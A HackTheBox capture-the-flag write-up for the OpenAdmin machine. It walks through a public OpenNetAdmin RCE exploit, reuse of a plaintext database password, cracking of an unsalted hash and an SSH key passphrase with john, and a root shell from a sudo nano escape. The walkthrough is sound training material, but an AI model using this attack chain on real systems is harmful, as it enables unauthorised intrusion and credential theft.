 ```yaml
---
tags:
  - hack
  - linux
---
```

# HackTheBox: [OpenAdmin](https://app.hackthebox.com/machines/OpenAdmin)

> [!tip]- Summary with Spoilers
> - This machine included an exposed [OpenNetAdmin](https://github.com/OpenNetAdmin/ona) installation, which I exploited using a command injection vulnerability to gain RCE as the `www-data` user.
> - I pivoted to the `jimmy` user by discovering plaintext credentials in configuration files under `/opt/ona/includes/`.
> - Privilege escalation was achieved via a `sudo` misconfiguration, allowing execution of arbitrary commands as `root`.

## Services

### TCP

```console
# Nmap 7.94SVN scan initiated Mon Jul  1 11:54:57 2024 as: nmap -v -sCV -p- -T4 --min-rate 10000 -oN nmap_tcp t
Nmap scan report for t (10.10.10.171)
Host is up (0.39s latency).
Not shown: 55237 closed tcp ports (reset), 10296 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods:
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### 80/tcp-http

```console
http://t [200 OK] Apache[2.4.29], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.29 (Ubuntu)], IP[10.10.10.171], Title[Apache2 Ubuntu Default Page: It works]
```

Fuzzing for directories uncovers `/music`, and a link from there led to `/ona`:

![](_/htb-openadmin-20240701-1.png)

This is [OpenNetAdmin](https://opennetadmin.com/), with plenty of attack surface:

> OpenNetAdmin provides a database managed inventory of your IP network. Each subnet, host, and IP can be tracked via a centralized AJAX enabled web interface that can help reduce tracking errors. A full CLI interface is available as well to use for scripting and bulk work.

## RCE

The OpenNetAdmin service running on the target has an RCE vulnerability. I used [this PoC](https://github.com/amriunix/ona-rce):

```console
$ python3 ./ona-rce.py check http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] The remote host is vulnerable!

$ python3 ./ona-rce.py exploit http://t/ona
[*] OpenNetAdmin 18.1.1 - Remote Code Execution
[+] Connecting !
[+] Connected Successfully!
sh$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## PE

In the server's web root, the file `local/config/database_settings.inc.php` contains database credentials:

```php
<?php
$ona_contexts=array (
  'DEFAULT' =>
  array (
    'databases' =>
    array (
      0 =>
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
```

I tried reusing that password for users `root` and `joanna`, neither of which worked, but it worked for user `jimmy`:

```console
www-data@openadmin:/opt/ona/www$ su - jimmy
Password:
jimmy@openadmin:~$ id
uid=1000(jimmy) gid=1000(jimmy) groups=1000(jimmy),1002(internal)
```

There's an interesting PHP file owned by group `internal`:

```console
jimmy@openadmin:~$ find / -group internal 2>/dev/null
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php

jimmy@openadmin:~$ cat /var/www/internal/main.php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); };
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Here's the vhost config:

```console
jimmy@openadmin:/etc/apache2$ cat sites-enabled/internal.conf
Listen 127.0.0.1:52846
<VirtualHost 127.0.0.1:52846>
    ServerName internal.openadmin.htb
    DocumentRoot /var/www/internal
<IfModule mpm_itk_module>
AssignUserID joanna joanna
</IfModule>
    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
```

I used [SSH port fowarding](pivoting-with-ssh-port-forwarding-20240627.md) to access the internal-facing web server boudn to port 52846:

![](_/htb-openadmin-20240701-3.png)

That login page comes from `/var/www/internal/index.php`, and the relevant code snippet is below:

```php
<?php
            $msg = '';
            if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
              if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
                  $_SESSION['username'] = 'jimmy';
                  header("Location: /main.php");
              } else {
                  $msg = 'Wrong username or password.';
              }
            }
```

That's an unsalted hash, which [CrackStation](https://crackstation.net/) has an entry for:

![](_/htb-openadmin-20240701-2.png)

The credentials `jimmy:Revealed` give us the private key for `joanna`:

![](_/htb-openadmin-20240701-4.png)

There's a passphrase for the private key, and the previously discovered "ninja" password didnt work. So, I used `john` to crack it, which only takes a few seconds:

```console
$ ssh2john ./id_rsa  > john.id_rsa

$ john -wordlist=~/rockyou.txt ./john.id_rsa
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (./id_rsa)
1g 0:00:00:03 DONE (2024-07-01 12:28) 0.2985g/s 2858Kp/s 2858Kc/s 2858KC/s bloodninjas..bloodmabite
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

That password grants access to the `joanna` account and user flag:

```console
$ ssh -i id_rsa joanna@t
Warning: Permanently added 't' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa':
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)
...
Last login: Tue Jul 27 06:12:07 2021 from 10.10.14.15
joanna@openadmin:~$ id
uid=1001(joanna) gid=1001(joanna) groups=1001(joanna),1002(internal)

joanna@openadmin:~$ ls -l user.txt
-r-------- 1 joanna joanna 33 Jul  1 17:53 user.txt
```

Elevating privileges is possible via Sudo:

```console
joanna@openadmin:~$ sudo -l
Matching Defaults entries for joanna on openadmin:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass
User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv

joanna@openadmin:~$ ls -l /opt/priv
-rw-r--r-- 1 root root 0 Nov 22  2019 /opt/priv

joanna@openadmin:~$ file /opt/priv
/opt/priv: empty

joanna@openadmin:~$ ls -ld /opt
drwxr-xr-x 3 root root 4096 Jan  4  2020 /opt

joanna@openadmin:~$ sudo /bin/nano /opt/priv
```

From inside the `nano` editor, it's possible to execute a shell command via `^R^X` and passing `reset; sh 1>&0 2>&0`, which provides an interactive `root` shell.
